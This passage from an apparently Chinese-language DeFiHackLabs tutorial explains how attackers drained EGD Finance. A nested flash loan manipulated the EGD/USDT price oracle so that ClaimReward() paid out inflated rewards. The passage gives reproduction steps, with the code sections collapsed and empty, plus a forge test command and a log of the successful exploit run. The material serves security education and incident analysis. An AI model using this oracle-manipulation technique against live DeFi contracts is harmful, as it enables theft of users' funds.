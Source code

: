 那麼具體上來說，攻擊者是如何利用這個不安全的價格參考進行價格操縱呢？

原理是，攻擊者在第二層閃電貸，向 `EGD/USDT Pair` 借出 USDT；在攻擊者還款之前，`getEGDPrice()` 取得到的價格資訊就會是不正確的。

參考示意圖：

![PriceManipulationGraph.png](PriceManipulationGraph.png)

**總結：攻擊者透過閃電貸，抽走價格預言機的流動性，使 `ClaimReward()` 獲取到不正確的價格參考，進而使攻擊者可以領取到異常大量的 EGD Token。**

攻擊者利用漏洞取得大量 EGD Token 後，將 EGD Token 透過 Pancakeswap 換回 USDT，獲利了結。

---

截至目前為止，我們已完整分析攻擊原理，讓我們完成 Reproduce Code：


Step4. 完成第一次閃電貸的邏輯代碼

<details><summary>點我展開代碼</summary></details>
<br>


Step5. 完成第二次閃電貸(漏洞利用)的邏輯代碼

<details><summary>點我展開代碼</summary></details>
<br>

若一切順利，命令列 `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv` 就可以看到 Reproduce 執行結果與 Balance 變化了。

[DeFiHackLabs - EGD-Finance.exp.sol](/src/test/EGD-Finance.exp.sol)

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
```